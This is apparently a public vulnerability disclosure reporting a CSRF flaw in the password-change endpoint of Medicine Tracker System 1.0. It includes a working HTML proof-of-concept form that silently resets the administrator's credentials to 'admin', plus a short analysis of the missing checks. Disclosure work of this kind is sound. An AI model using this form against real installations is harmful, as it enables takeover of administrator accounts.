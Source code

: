 ## Affected version: 
Medicine Tracker System - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/16308/medicine-tracker-system-php-oop-and-mysql-db-source-code-free-download.html

## Vulnerability File:
/php-mts/classes/Users.php?f=save_user

## Description:
Medicine Tracker System has a CSRF vulnerability when changing the password. An attacker can trick the administrator into changing the administrator login password, causing system information to be leaked.
Status: CRITICAL

POC
Create CSRF POC by changing the password

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/php-mts/classes/Users.php?f=save_user" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="firstname" value="123" />
      <input type="hidden" name="middlename" value="123" />
      <input type="hidden" name="lastname" value="123" />
      <input type="hidden" name="username" value="admin" />
      <input type="hidden" name="password" value="admin" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
<img width="1575" alt="image" src="https://github.com/user-attachments/assets/c1de7a6c-9d91-4b35-923c-eb809aac90de">

Administrator clicks to change password successfully
<img width="1288" alt="image" src="https://github.com/user-attachments/assets/2655fd9d-2181-41f5-b642-f64f7ce44f0a">

## code analysis

The password is changed here without verifying the original password or adding a random verification code, causing CSRF.
<img width="1140" alt="image" src="https://github.com/user-attachments/assets/1157b0d1-e6c2-4a32-a010-163585c7a9d3">







 

